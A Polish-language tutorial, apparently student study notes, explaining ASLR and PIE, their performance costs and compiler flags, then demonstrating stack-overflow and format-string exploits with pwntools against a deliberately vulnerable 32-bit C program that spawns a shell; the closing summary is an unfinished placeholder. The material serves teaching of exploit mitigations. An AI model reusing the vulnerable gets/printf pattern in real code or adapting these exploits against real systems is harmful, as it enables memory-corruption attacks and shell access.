

# ALSR & PIE

W tym przypadku opiszę jednocześnie dwie metody, `ASLR` oraz `PIE`. Uważam że działanie tych metod jest na tyle połączone ze sobą, że nie ma sensu rozdzielać je na dwa oddzielne opracowania.


## 1. Opis

#### ASLR

`ASLR`, a dokładniej `Addres Space Layout Randomization` to technika, która losuje przestrzeń adresową podczas startu programu. Jest to technika implementowana systemowo, niezależna od kompilacji. Dzieki temu ataki opierające się na `BOF` są trudniejsze w wykonaniu ze względu na randomizację adresów. ASLR losuje adresy dla wszystkich sekcji oprócz `text` i `plt` - Procedure Linkage Table. Losowość tych sekcji można zaobserować w `gdb` poprzez polecenie `vmmap` i `plt`. Należy jednak pamiętać, że w `gdb` domyślnie **wyłącza** jest ASLR przez co zobaczenie różnicy będzie niemożliwe. Aby dobaczyć różnice należy podłączyć się pod istniejący proces w systemie poprzez komende `attach pid` lub włączyć ASLR w gdb poprzez komendę `set disable-randomization off`.


ASLR można włączyć i wyłaczyć jednie przy pomocy komendy `echo X | sudo tee /proc/sys/kernel/randomize_va_space`, gdzie `X = 0` to ASLR wyłączony, a `X = 2` ASLR włączony.


#### PIE


`PIE` - `Position indepented executable` jest to technikam, które losuje adres bazowy (base addres). Po skompilowaniu programu widzimy jedynie offsety do danych funkcji, całe poruszanie się po kodzie opiera się na offsetach a nie na dokładnych adres, tak jak to jest bez PIE/


Metoda ta niejako dopełnia ASLR, gdyż PIE zapewnia to że sekcjie `text` oraz `plt` nie są statyczne. Dzięki tekiemu połączeniu ASLR+PIE wsyztskie sekcje posiadają zmienne adresy co znaczoąco poprawia bezpieczeńśtwo dunkcji. Base addres jest za każdorazowo losowany przy uruchomieniu aplikacji. Poniżej można zauważyć, że adresy wszystkich sekcji są zmienne. Aby to pokazać posłużyłem się identycznym sposobem jak w ASLR.


## 2. Wady i zalety

#### ASLR

Zaletą użycia ASLR w aplikacji jest oczywiście randomizacja adresów. Ataki typu ROP oraz ret2libc stają się trudniejsze, jednakże dalej są możliwe. Nalezy pamiętać że adresy są losowe, jednakże offsety pomiędzy sekcjamisą stałe. Oznacza to że można sprawdzić offsety pomiędzy sekcjami w `gdb` i jeśli będziemy mieli możliwosć leakowania adresów wiemy o pozycuji wszytskich elementów w programie.

Wadą/zaletą jest również wpływ na wydajność w zależności od systemu. Więcej o tym w punkcie 4.


#### PIE

W tym przypadku nalezy zacząć od wad, ponieważ samo używanie `PIE` bez używania `ASLR` jest nieefektywne. Program skopiluje się, a w kodzie asm będzie widać, że kod opiera się na offsetach, jednakże po uruchomieniu adres bazowy będzie za każdym razem identyczny.

Oczywistą zaletą `PIE` jest jego wpływ na bezpieczeństwo. Dzięki randomizacji adresu bazowego binarki ataki są trudniejsze. Ataki opierające typu ROP i ret2libc stają się niemalże niemożliwe, jeśli nie znamy adresów funkcji.


Należy wspomnieć również o pływie na wydajność kompilacji programu z `PIE`. Straty w wydajności potrafią być duże ze względu za rezerwowanie jednego z rejestrów. Powoduje to dodatkową ilość operacji (czesto należy coś wrzucić na stos aby tylko zwolnić rejestr). Sytacjia taka występuje na x86, wówczas straty to 10-26%. Taka sytacja nie ma jednak miejsca w x86_64, ponieważ mamy tam więcej rejestrów.


## 3. GCC i Clang

ASLR jest metodą niezależną od kompilacji. W oby `pie` jest domyślnie włączone. Aby nie kompilwować aplikacji z pie nalezy dodać flagę `-no-pie`. Warto wspomnieć, że domyslnie nie jest możliwe kompilwoanie programu z statycznymi bibliotekami oraz pie. Nalezy wówaczas użyć flagi `-static-pie`.


## 4. Różnice w Windows i Linux

#### ASLR

W obuprzypadkach celem ASLR jest randomizacja adresów, jednakże występuje różnica w ich implementacji.


W linuxie ASLR jest `compile-time option`. ASLR implemententowawny jest przez kernel. Oznacza to, że ASLR ma wpływ na wydahność aplikacji, ponieważ ASLR musi być kompilowany z PIE. Badania wskazują, że może to prowadzić do 10-26% strat w wydajności w  przypadku architektury x86, jednakże na architekturze x86_64 straty są już niewielkie ze względu na większą ilosć rejestrów.


W windowsie ASLR jest `link-time option`. Kod jest patch-owany podczas pracy programu. Włączaony jest przez opcję `/DYNAMICBASE`. ASLR na architekturze x86 nie powoduje strat wydajności, a może wystąpić nawet jej poprawa. Warto jednak nadmienić, że ASLR może spowodować wolniejsze łądowaniue modułów.


## 5.1 Przykłądowa aplikacja - atak na aplikację z wariacją ASLR i PIE

Celem tego ataku będzie pokazanie wpływu ASLR i PIE na możliwość exploitacji aplikacji.

Pierwotne założenia kompilacji:

* Kompilacja na 32-bit = `-m32`
* Włączone NX
* Wyłączone Stack Cannary = `-fno-stack-protector`
* PIE - w zależności od podpunkty
* ASLR - w zależności od podpunktu

Poniżej znajduje się kod podatnej aplikacji. Widzimy, że znajduje sie w niej bardzo podatna funkcja `win`, która daje nam shell-a. Celem ataku we wszytskich wariantach jest dostanie się do tej funkcji.


```c
#include <stdio.h>
#include <stdlib.h>


void win(){
        system("/bin/sh");
}

void vuln()
{
        char buffer[16];
        gets(buffer);
        printf(buffer);
        printf("\n");
        gets(buffer);
}

int main(int argc, char *argv[])
{
        vuln();
        return 0;
}
```


Aby zdobyć shella nalezy:

* odnaleźć adres funkcji `win`
* odnaleźć padding 


W przypadku każdego z popunktów padding jest identyczny i wynosi 28 znaków. Jako payload wysyłam ciąg znaków wygenerowany przez narzędzie `cyclic` dostarczone wraz w pwntools. Generwaony ciąg jest ciągiem `de Bruijna`, czyli kazdy podciąg w danym ciągu występuje tylko raz, co pozwala wyznaczyć padding. Poprzez komendę 'cyclic X' tworzymy ciąg, gdzie X to długość ciągu, następnie sprawdzając co znajduje się w rejestrze `eip` obliczamy padding używając komendy `cyclic -l sequence` gdzie sequence to wartośc w eip.


### a) NO ASLR & NO PIE

Jako że ASLR oraz PIE jest wyłączone, adres funkcji `win` jest stały. Oznacza to, że adres mogę pobrać wprost z `gdb`. Wówczas exploit to podanie odpowiedniego paddingu oraz nadpisanie adresu powrotu adresem funkcji `win`.


Kod prostego exploitu znajduje się poniżej.

```python
#!/usr/bin/env python3

from pwn import *

p = process('./vuln')

send = b"A" * 28 + p32(0x08049192)
p.sendline(b"")
p.sendline(send)

p.interactive()
```


W wyniku poniższego exploitu dostajemy shella.


### b) NO ASLR & PIE

W przypadku tego ustawienia, asm skompilowanej aplikacji oparty jest na liczeniu offsetów. Jednakże, base addres jest stały, gdyż nie używamy ASLR. 

Base addres można poznać uruchamiając aplikację w `gdb` i używając komendy `vvmap`. Adres bazowy to `0x56555000`. Offset do funkcji `win` rówieniż pobrałem za pomocą `gdb` używając komendy `disasseble win` - jest to wartość `0x11c9`.

```python
#!/usr/bin/env python3

from pwn import *

p = process('./vuln-2')

base_addres = 0x56555000

win_addres = 0x000011c9

win_addres = base_addres + win_addres

send = b"A" * 28 + p32(win_addres)
p.sendline(b"")
p.sendline(send)
p.interactive()
```


W wyniku poniższego exploitu dostajemy shella.


### c) ASLR & NO PIE

W takiej konfiguracji atak opisany, tak jak w podpunkcie `a)` jest identyczny. Dzieje się tak, ponieważ sekcja `text` nie jest losowana. Jej adres jest stały. Wartość funkcji `win` można pobrać z `gdb` tak samo jak w podpunkcie `a)`. Exploit ten sam co w punkcie `a)`.


### d) ASLR & PIE

W przypadku takim, wszystkie segmenty pamięci są losowane. W takim przypadku skok do funkcji `win` jest niemalże niemożliwy, ponieważ adres jej będzie losowy. Jedyną możliwością jest wyleakowania pamięci, aby następnie obliczyć od niej odpowiedni offset.

Do wyleakowania adresów na stosie używam podatności funkcji `printf`, która jest w stanie wypisac wartości ze stosu po zastosowaniu odpowiednich specyfikatórów - w tym przypadku jest to `%p`, ponieważ wyświetla to wartści z `0x` na początku, co umożliwia wypisanie większej ilosci stosu.

```python
from pwn import *

p = process('./vuln-2')

p.sendline("%p" * 7)

data = p.readline()
data = data.split(b"0x")
for i in range(len(data)):
    log.info("{} {}".format(i, data[i]))
```


Po wypisaniu wartości okazało się, że 4 wartość to jeden z adresów w funkcji `vuln`. Zatem obliczając jedynie offset tej isntrukcji do funkcji `win` jestem w stanie uzyskać adres `win`. Offsetem jest więc `0x37`.


Zatem aby uzyskać adres `win` należy odjąc offset od zleakowanej instrukcji. Finalnie exploit wygląda następująco.

```python
#!/usr/bin/env python3

from pwn import *

p = process('./vuln-2')

p.sendline("%p" * 7)

data = p.readline()
data = data.split(b"0x")
for i in range(len(data)):
    log.info("{} {}".format(i, data[i]))

some_addr = int(data[3],16)
offset = 0x37
win_addres = some_addr - offset

log.success("WIN AT: 0x%08x" % win_addres)
send = b"A" * 28 + p32(win_addres)

p.sendline(send)

p.interactive()
```


W wyniku exploita uzyskujemy shella.




## 6. Podsumowanie


# DOPISAĆ


